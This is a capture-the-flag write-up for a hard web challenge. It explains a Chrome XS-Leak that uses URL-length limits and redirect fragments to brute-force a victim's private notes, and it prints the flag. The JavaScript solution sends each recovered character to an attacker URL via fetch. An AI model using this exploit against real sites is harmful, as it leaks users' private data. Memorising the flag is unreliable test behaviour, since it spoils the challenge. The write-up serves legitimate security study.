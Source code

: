 # Mandatory Notes Challenge

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{m4nd4t0ry_xs_l34k_dba26b9558}`

## Description

We have credible intelligence that Sussy McSus, CEO of EvilCorp, a shady MultiNational Corporation, is using this note-taking app to store sensitive information. He is known to be in cahoots with the SEE-IA. Can you find out what he is up to?

Note: the target page is `http://mnc.web.seetf.sg:1337/`.

## Difficulty

Hard

## Deployment

`docker-compose up -d`

## Solution

**Tested on Chrome Version 110.0.5481.77 (Official Build) (x86_64)**

Abusing Chrome's behavior when dealing with long URLs combined with URI fragments persisting across server redirects. I found this technique as an [unintended solution to `secrets` from HackTM CTF 2023](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets) and [added](https://github.com/xsleaks/wiki/pull/147) it to the XSLeaks Wiki.

If the note is found, the user is redirected to `?found=1#<base64 encoded JSON array of note IDs>`, otherwise they are redirected to `?found=0`.

```javascript
const found = req.session.notes.filter(note => note.text.includes(query));

if (!found.length) {
    return res.redirect('/?found=0');
}
return res.redirect(`/?found=1#${btoa(JSON.stringify(found.map(note => note.id)))}`);
```

Because URI fragments persist across server-side redirects, we can artificially inflate the URL length by adding a long fragment so that it is exactly 1 byte less than [Chrome's 2MB limit](https://chromium.googlesource.com/chromium/src/+/main/docs/security/url_display_guidelines/url_display_guidelines.md#url-length).

When a redirect causes the URL to increase in length, the 2MB limit is hit and the navigation is aborted. The page would become `about:blank#blocked`. Interestingly, this means that the window reference is treated as same-origin and the opener is able to read `window.origin` and other sensitive properties that are normally inaccessible from a cross-origin page.

This gives us two cases:

1. `?q=<guess>#AAA...AAA` finds a note. The user is redirected to `/?found=1#<base64 encoded JSON array of note IDs>`. Because the redirect includes a fragment, the long `#AAA...AAA` fragment is replaced with the new, much shorter fragment. The navigation proceeds as normal and the window is treated as cross-origin.
2. `?q=<guess>#AAA...AAA` does not find a note. The user is redirected to `/?found=0`. Because the redirect does not include a fragment, the long `#AAA...AAA` fragment is preserved. The navigation is aborted and the window is treated as same-origin.

Our goal is to distinguish between these two cases.

We can do this by catching the error thrown when attempting to access `window.origin` of a cross-origin window. If the error is thrown, we know that the URL length limit not exceeded and the note was found.

```javascript
const leak = async (url) => {
    let w = window.open(url + "#" + "A".repeat(2 * 1024 * 1024 - url.length - 1));
    await sleep(800);
    try {
        // Page is still same-origin, so about:blank page loaded
        // The URL length limit was exceeded
        w.origin;
        await w.close();
        return 0;
    } catch {
        // The URL length limit was not exceeded, so note was found
        await w.close();
        return 1;
    }
}
```

In order to detect the redirects, we must keep our query sufficiently short so that the original URL is at least 1 byte less than the final redirected URL. This means that we can only check 4 characters at a time (`?q=AAAA` is exactly 1 byte less than `?found=0`). We can use this to brute-force the flag character by character.

```javascript
const solve = async (char) => {
    // ?q=AAAA   redirects to
    // ?found=0  if note not found (so the URL is one character too long)
    // We can only check 4 characters at a time
    if (await leak(`http://chall?q=${flag.slice(-3) + char}`)) {
        await fetch(`${OUR_URL}?flag=${flag + char}`);
        return true;
    }
}
```

## Unintended Solution

Because `Cross-Origin-Opener-Policy` is not set, there is an unintended solution.

This challenge can also be solved through the traditional [history length leak](https://xsinator.com/testing.html#History%20Length%20Leak) technique, since the page redirects to a predictable URL when found.

1. Open a new window.
2. Set `win.location` to `baseUrl + "?q=" + query + char;`.
3. Wait for the redirect to complete.
4. Set `win.location` to `baseUrl + "?found=1#WzBd";`, and after a very short timeout, set it back to `about:blank`.

If the note was found, step 3 would have already landed the page at `baseUrl + "?found=1#WzBd";`. When the last step sets `win.location` to the same URL, the navigation is completed immediately.

If the note was not found, the short timeout means that the navigation would not have completed by the time the last step sets `win.location` to `about:blank`.

This causes a difference in the history length, which can be detected by the opener.
